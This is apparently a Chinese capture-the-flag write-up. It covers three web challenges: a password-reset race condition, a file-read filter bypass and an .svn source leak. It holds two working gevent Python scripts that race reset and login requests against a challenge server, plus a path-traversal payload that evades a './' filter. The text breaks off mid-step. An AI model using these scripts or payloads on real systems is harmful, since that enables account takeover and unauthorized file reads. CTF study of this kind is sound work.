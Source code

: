 #### 条件竞争：
题目给了源码，看了一下在reset密码时存在条件竞争漏洞，reset时有两步：
1. 先将该用户信息清空并新插入一条信息，这时notadmin为False
2. 然后再将notadmin设置为True

那么只要在第二步之前登录即可，所以跑两个程序，一个reset，一个login即可，我这里分别开了15个协程：
##### reset.py
``` py
import requests
from gevent import monkey
import gevent
monkey.patch_all()

def reset():
    for i in range(100):
        cookies = {'PHPSESSID':'crr472f26gv9ef64rcu39obu01'}
        a = requests.post("http://218.2.197.232:18009/index.php?method=reset",data={'name':'c610599c37103bf5','password':'zzm'},cookies=cookies).text
        print(a)

tasks = [gevent.spawn(reset) for i in range(15)]
gevent.joinall(tasks)
```
##### login.py
``` py
import requests
from gevent import monkey
import gevent
monkey.patch_all()

def login():
    for i in range(100):
        cookies = {'PHPSESSID':'crr472f26gv9ef64rcu39obu01'}
        b = requests.post("http://218.2.197.232:18009/login.php?method=login",data={'name':'c610599c37103bf5','password':'zzm'},cookies=cookies).text
        print(b)

tasks = [gevent.spawn(login) for i in range(15)]
gevent.joinall(tasks)
```
很快就能读到flag：

![image.png](http://upload-images.jianshu.io/upload_images/2511560-4006fb816f0c1a49.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

#### 读文件：
只给了个1.txt可以读，试了一下加*不行，感觉不是命令执行，"../"返回上级目录也不行，猜测可能过滤了什么，在1.txt中间加上"./"发现仍能读取，说明"./"被过滤了，构造payload，在上级目录的flag.php的注释里读到flag
> http://218.2.197.232:18008/a/down.php?p=...//fla./g.php

#### Web综合：
发现有.svn泄露,下载下来sqlite数据库文件，找到settings.inc.php的checksum，然后在
> http://218.2.197.232:18007/.svn/pristine/c6/c63308801a9ec3b0c1aea96b061c00b1666adebb.svn-base
